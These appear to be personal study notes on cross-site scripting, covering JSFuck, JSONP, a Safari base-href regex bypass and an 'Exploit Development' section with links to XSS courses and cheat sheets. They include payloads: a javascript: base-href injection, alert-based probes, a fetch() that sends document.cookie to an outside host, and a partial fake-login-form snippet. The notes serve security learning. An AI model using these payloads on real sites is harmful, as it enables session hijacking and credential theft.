 
**JS Fuck**
[Link]: http://www.jsfuck.com/
+ Javascript only using: `[]()!` -  may be some other


       ============================================================


**JSONP**
* CORS Attack
[There's a chapter on JSONP - LiverOverflow]: https://www.youtube.com/watch?v=aCexqB9qi70


       ============================================================

**Regex**
+ Break out of _regex context_ with the `/`
+ `*-` after the forward slash is ok and won't throw an error so long as 
+ Parantheses `()` 

**Regex Bypass - Safari**
1. Use regex format in _Safari_
[LiveOverflow]: https://www.youtube.com/watch?v=eQFbG6CwwdI
```Regex_Format
<base href="javascript:/a/-alert(1)/">
                            ^this gets executed
<a href="test.html">click</a>
```

 +  Adding `//////` to bypass potential combining of `base` and `href`
```//////
                                    v----these will combine with `../` below
<base href="javascript:/a/-alert(1)/////////">                    |
                                                                  |
<a href="../../../lol/test.html">click</a>                        |
         ^--------------------------------------------------------+
```


       ============================================================


------------------------------------------------------------------------------------------
------------------------------------------------------------------------------------------
------------------------------------------------------------------------------------------
    
# 3. Exploit Development
* Uses: CSS Selectors, Events, Event Handlers, JS Ajax Requests, JS Functions,
        JS HTML Collections, JS strings, JS objects, JS variables, JSON encoding,
        URLs
 [Chef Secure]:  https://chefsecure.com/courses/xss/recipes/how-to-create-real-xss-exploits-to-attack-websites
 [12 XSS]: https://chefsecure.com/blog/the-12-exploits-of-xss-mas-infographic
  * Some were not included

  **Confirm XSS**
   * In case there's an sandboxed `iframe` that is WAI (working as intended):
   ```Option1
       alert(document.domain)
       alert(window.origin)
   ```
  
  **Cookie/Credential Stealing** 
   ```Option1
       alert(document.cookie)
   ```
   ```Option2
       fetch(`https://example.com?cookie=${
        encodeURIComponent(document.cookie)}`)
   ```
   ```Option3
       f=document.createElement('form')
       u=document.createElement('input')
       u.setAttribute('type','text')
       u.setAttribute('name','username')
       p=document.createElement('input')
   ```

[Portswigger Cheat Sheet]: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
[Above Downloaded File]: /sec/web/xss/xss-cheat-sheet.pdf
[AppSecEU Slides & Videos]: https://2017.appsec.eu/slides-and-videos
[Course]: https://chefsecure.com/courses/xss
[LiveOverflow]: https://www.youtube.com/watch?v=HcrQy0C-hEA
[OWASP Cheat Sheet]: https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
  [Payload of All Things]: https://github.com/swisskyrepo/PayloadsAllTheThings
[Link]: https://security.stackexchange.com/questions/173032/xss-payload-without
[Script Gadgets]: /sec/web/xss/Bypassing XSS mitigations via Script gadgets.pdf
[Video]: https://www.youtube.com/watch?v=p07acPBi-qw&list=PLpr-xdpM8wG8RHOguwOZhUHkKiDeWpvFp&index=4
[Link]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP